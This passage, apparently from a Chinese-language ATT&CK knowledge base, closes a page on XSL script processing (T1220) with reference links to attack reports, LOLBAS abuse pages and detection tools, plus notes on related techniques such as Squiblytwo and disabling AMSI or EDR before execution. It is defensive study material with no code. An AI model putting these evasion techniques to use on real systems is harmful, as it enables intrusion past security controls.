- [Microsoft Learn - XSLT Stylesheet Scripting Using <msxsl:script>](https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script)
- [Microsoft - Command Line Transformation Utility (msxsl.exe) 下载](https://www.microsoft.com/en-us/download/details.aspx?id=21714)

### 📰 安全报告（真实攻击）

- [PentestLab - AppLocker Bypass MSXSL (2017)](https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/)
- [Reaqta - Spear-phishing campaign leveraging on MSXSL (2018)](https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/)
- [Avneet Singh / Medium - MSXSL.EXE and WMIC.EXE: A Way to Proxy Code Execution](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)
- [Cybereason - Astaroth Malware Uses Legitimate OS and Antivirus Processes](https://www.cybereason.com/blog/information-stealing-malware-targeting-brazil-full-research)
- [Cisco Talos - Multiple Cobalt Personality Disorder](https://blog.talosintelligence.com/2018/07/multiple-cobalt-personality-disorder.html)
- [Positive Technologies - Higaisa Group Investigation](https://www.ptsecurity.com/ww-en/analytics/pt-esc-threat-intelligence/covid-19-and-new-year-greetings-the-higaisa-group/)
- [ESET - Operation In(ter)ception: Targeted Attacks Against European Aerospace](https://www.welivesecurity.com/wp-content/uploads/2020/06/ESET_Operation_Interception.pdf)

### 🔧 工具与资源（动手试试）

- [LOLBAS Project - msxsl.exe](https://lolbas-project.github.io/lolbas/Other_MS_Binaries/Msxsl/) - msxsl.exe滥用方式参考
- [LOLBAS Project - wmic.exe](https://lolbas-project.github.io/lolbas/Binaries/Wmic/) - wmic.exe滥用方式参考（含Squiblytwo）
- [Atomic Red Team - T1220 Tests](https://atomicredteam.io/) - 可执行的检测测试用例
- [Sysinternals Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) - 进程与模块加载监控
- [Sigma Project](https://github.com/SigmaHQ/sigma) - 通用检测规则格式

## 相关技术

- **[T1218 系统二进制代理执行](./T1218-System-Binary-Proxy-Execution.md)**：XSL脚本处理可视为T1218的特化形式——通过特定LOLBin（msxsl.exe/wmic.exe）代理执行恶意代码。两者核心思想一致，区别在于T1220专注于XSL文件这一特定载体
- **[T1218.010 Regsvr32 / Squiblydoo](./T1218/T1218.010-Regsvr32.md)**：Squiblydoo（regsvr32调用远程SCT）与Squiblytwo（wmic调用远程XSL）是孪生技术，常被攻击者根据目标环境二选一
- **[T1047 Windows管理规范](../04-Execution/T1047-Windows-Management-Instrumentation.md)**：T1220的Squiblytwo变体直接滥用wmic.exe，与T1047共享同一工具基础；理解WMI架构对检测Squiblytwo至关重要
- **[T1127 受信任的开发者工具代理执行](../04-Execution/T1127-Trusted-Developer-Utilities-Proxy-Execution.md)**：T1220在MITRE官方描述中明确指出与T1127概念相近——两者都通过受信任的开发者工具代理执行恶意代码
- **[T1059 命令与脚本解释器](../04-Execution/T1059-Command-and-Scripting-Interpreter.md)**：XSL脚本处理最终通过JScript/VBScript执行恶意逻辑，与T1059.005（Visual Basic）和T1059.007（JavaScript）在脚本语言层面存在重叠
- **[T1027 混淆文件或信息](./T1027-Obfuscated-Files-or-Info.md)**：XSL文件本身可被加密或编码以规避静态检测，与T1027.013（加密/编码）形成配合
- **[T1562 削弱防御](./T1562-Impair-Defenses.md)**：攻击者在调用XSL脚本前常先禁用AMSI或EDR（T1562.001禁用工具），以提高T1220成功率
- **[T1106 原生API调用](../04-Execution/T1106-Native-API.md)**：XSL中的JScript通过COM对象最终调用Win32 API，与T1106在API调用层面存在技术关联
